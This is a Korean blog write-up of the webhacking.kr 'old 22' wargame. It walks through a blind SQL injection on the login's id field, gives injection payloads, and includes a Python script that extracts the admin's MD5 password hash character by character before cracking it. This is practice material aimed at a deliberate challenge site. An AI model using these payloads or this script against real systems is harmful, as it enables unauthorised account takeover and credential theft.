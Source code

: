 ```yaml
---
title: "webhacking.kr old 22 문제 풀이"
date: 2025-04-09 00:00:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, blind sql injection] 
description: webhacking.kr old 22 문제 풀이
---
```


[https://webhacking.kr/challenge/bonus-2/index.php](https://webhacking.kr/challenge/bonus-2/index.php)
# 문제 풀이
1. guest guest 입력 시 로그인 성공 후 password hash 값 출력
2. md5 인코딩으로 추정됨
	- 확인해보니 "password" + apple 인코딩 값
3. pw에는 인젝션 불가능, id에 가능
4.  `guest' and pw='guest' -- ` 입력 시에 로그인 실패
5. `guest' and pw='8c3a432045300fddc9050bb678749eb9' -- `를 하면 wrong password 출력
	- password input에 값을 넣지 않아서 그런 듯 함

6. `guest' and length(pw)=32 -- `, 모든 비번은 아마 md5 32자리로 저장되는 듯 함.
	- 그래서 해당 쿼리에 wrong password가 출력
7. admin' and ord(substr(pw, 1, 1))<97 -- 
8. 파이썬 자동화 코드 작성
9. md5 값 얻어 복호화
10. 비밀번호 알아내기
11. 제출
## 분석
웹페이지에 접속하면 username, password 값을 입력받는 인풋 박스들이 있고 제출을 의미하는 login 버튼과 회원가입을 위한 join 버튼이 있다.<br />

그리고 admin으로 로그인하는 것이 우리의 목표라고 한다.<br /> 그 아래에는 컬럼 이름이 각각 id, pw라고 친절하게 알려주는 것을 보니 SQLI 문제인듯 하다.
### guest 테스트
테스트로 아이디, 비밀번호 모두 "guest"로 입력하여 유저 하나를 회원가입시키고 로그인을 해보니 guest를 반겨줌과 동시에 비밀번호가 hash된 값도 보여준다.<br />
비밀번호 "guest"가 hash된 값은 "8c3a432045300fddc9050bb678749eb9"이라고 한다. 이를 보면 MD5로 인코딩된 것 처럼 보인다.<br />

이게 어떤 값으로 들어가는지 궁금해져서 md5 디코더 사이트를 이용해보니 복호화가 불가능하다고 한다.<br />
그 다음으로는 [CrackStation](https://crackstation.net/)이라는 사이트를 이용하여 레인보우 테이블을 이용한 복호화를 해보니 아래의 결과가 나온다.<br />

| Hash                             | Type | Result     |
| -------------------------------- | ---- | ---------- |
| 8c3a432045300fddc9050bb678749eb9 | md5  | guestapple |
역시 예상대로 md5 형식이 맞았고 내가 설정한 비밀번호 외로 뒤에 "apple"이라는 문자열이 붙어있는 것이 확인된다.<br />
### 서버 작동 예상
지금까지 얻은 정보들로 보았을 때 우리가 로그인 시 username과 password를 입력하고 제출하면 서버에서 값들을 받아오고 비밀번호에 "apple" 접미사를 붙여 md5 암호화를 한다.<br />
그 이후 유저로부터 받은 값들을 쿼리에 넣어주어 해당 쿼리가 올바른 값을 반환하면 login 성공, 그렇지 않다면 fail이라 판단하는 것이다.<br />

```sql
select * from users where id="user_input_id" and pw="user_input_pw"
```
서버에서 사용하는 것으로 예상되는 쿼리는 위와 같다.<br />
## 최종 풀이
해당 문제가 가진 취약점은 Blind SQLI이다.<br />
### 쿼리 작동 여부 테스트
우리가 얻어내야 하는 것은 admin이라는 id를 가진 유저의 pw 값을 얻어내는 것이다.<br />
우선 pw의 길이부터 알아내는 쿼리가 필요하다.<br />

id로는 "admin"을 입력하고 pw로는 "123' or length(pw)=32 -- "를 입력한다.<br />
비밀번호가 32인 이유는 MD5로 변환된 비밀번호가 보통 DB에 들어가기 때문에 32자리인 것을 미리 알 수 있기 때문이다.<br />

그런데 이렇게 작성하여도 "Login Fail!"이라는 문구만 나올 뿐이다.<br />

분명 쿼리에는 문제가 없어보이는데 작동하지 않아 비슷한 방식을 id에 넣어보기로 하였다.<br />
"admin' and length(pw)=32 -- "를 id로 입력하고 pw는 비운 상태로 제출을 하니 이번에는 로그인 실패 문구가 아니라 "Wrong password!"가 나온다.<br />

아마 쿼리에서는 값이 성공적으로 반환됐지만 password 인풋 박스에 들어온 값과 진짜 비밀번호를 비교하는 서버의 또 다른 validation 프로세스가 있는 것 같다.<br />

이로써 우리는 username 인풋 박스에서 SQL Injection이 발생하는 것을 알 수 있다.<br />
### 익스플로잇
```python
import requests
from itertools import chain

url = "https://webhacking.kr/challenge/bonus-2/"
password = ""

for i in range(1, 33):
    for ascii in chain(range(48, 57 + 1), range(97, 122 + 1)):
        data = {
            "uuid": f"admin' and ord(substr(pw, {i}, 1))={ascii} -- ",
            "pw": "",
        }
        resp = requests.post(url, data=data)
        if "Wrong password!" in resp.text:
            print("Found", ascii)
            password += chr(ascii)
            break
    
print(password)
```
이제 파이썬으로 자동화 코드를 작성하여 실행만 해주면 비밀번호를 얻어낼 수 있다.<br />

해당 코드는 SQL의 substr() 함수를 이용하여 비밀번호의 각 자리가 ascii 코드로 문자 '0' ~ '9'와 'a' ~ 'z' 중 무엇인지 알아내는 코드이다.<br />
다시 언급하지만 비밀번호는 md5로 변환된 값이 들어있기 때문에 숫자 아니면 알파벳 소문자로 이루어져 있어서 그 사이에 있는 값으로만 체크하고 있다.<br />

`6c9ca386a903921d7fa230ffa0ffc153` 결과로 이러한 문자열이 나오고 또 다시 [CrackStation](https://crackstation.net/) 사이트를 통해서 복호화를 해보면 "somethingapple"이라는 값이 나온다.<br />

이때 뒤의 apple을 제외한 앞의 문자열을 비밀번호로 입력하고 username으로는 "admin"을 입력하면 문제가 해결된다.